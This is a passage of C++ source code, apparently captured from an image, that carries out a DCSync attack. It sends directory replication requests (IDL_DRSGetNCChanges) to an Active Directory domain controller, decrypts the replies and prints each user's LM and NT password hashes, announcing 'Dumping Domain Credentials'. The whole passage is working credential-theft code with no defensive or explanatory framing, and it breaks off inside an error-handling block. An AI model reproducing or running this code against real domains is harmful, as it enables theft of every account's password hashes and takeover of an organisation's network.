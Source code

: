 ```c++

        getChgReq.V8.uuidDsaObjDest = DomainControllerGuid;
        getChgReq.V8.uuidInvocIdSrc = DomainControllerGuid;
        dsName.Guid = UserGuid;
        getChgReq.V8.pNC = &dsName;
        getChgReq.V8.ulFlags = DRS_INIT_SYNC | DRS_WRIT_REP | DRS_NEVER_SYNCED | DRS_FULL_SYNC_NOW | DRS_SYNC_URGENT;
        getChgReq.V8.cMaxObjects = 1000;
        getChgReq.V8.cMaxBytes = 0x00a00000; // 10M
        getChgReq.V8.ulExtendedOp = (UserName ? EXOP_REPL_OBJ : 0);
        getChgReq.V8.pPartialAttrSet = (PARTIAL_ATTR_VECTOR_V1_EXT*)MIDL_user_allocate(sizeof(PARTIAL_ATTR_VECTOR_V1_EXT) + sizeof(ATTRTYP) * (ARRAYSIZE(DCSYNC_OIDS_EXPORT) - 1));
        getChgReq.V8.pPartialAttrSet->dwVersion = 1;
        getChgReq.V8.pPartialAttrSet->dwReserved1 = 0;
        getChgReq.V8.pPartialAttrSet->cAttrs = ARRAYSIZE(DCSYNC_OIDS_EXPORT);

        for (DWORD i = 0; i < getChgReq.V8.pPartialAttrSet->cAttrs; i++)
        {
            MakeAttid(&getChgReq.V8.PrefixTableDest, DCSYNC_OIDS_EXPORT[i], &getChgReq.V8.pPartialAttrSet->rgPartialAttr[i], TRUE);
        }

        wprintf(L"[+] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash).\n\n");
        RpcTryExcept
        {
            do
            {
                RtlZeroMemory(&getChgReply, sizeof(DRS_MSG_GETCHGREPLY));

                drsStatus = IDL_DRSGetNCChanges(hDrs, 8, &getChgReq, &dwOutVersion, &getChgReply);
                if (drsStatus == 0 && dwOutVersion == 6)
                {
                    if (Decrypt_getChgReply(&getChgReply.V6.PrefixTableSrc, getChgReply.V6.pObjects))
                    {
                        REPLENTINFLIST* pObject = getChgReply.V6.pObjects;
                        for (DWORD i = 0; i < getChgReply.V6.cNumObjects; i++)
                        {
                            DescribeUser(&getChgReply.V6.PrefixTableSrc, &pObject[0].Entinf.AttrBlock, DomainName);
                            pObject = pObject->pNextEntInf;
                        }
                    }
                    else
                    {
                        wprintf(L"[-] ProcessGetNCChangesReply error.\n");
                        break;
                    }
                }
                else
                {
                    wprintf(L"[-] IDL_DRSGetNCChanges error.\n");
                    break;
                }

            } while (getChgReply.V6.fMoreData);
        }
        RpcExcept(EXCEPTION_EXECUTE_HANDLER);
        {
            wprintf(L"[-] Exception: %d - 0x%08x.\r\n", RpcExceptionCode(), RpcExceptionCode());
        }
        RpcEndExcept
        {
```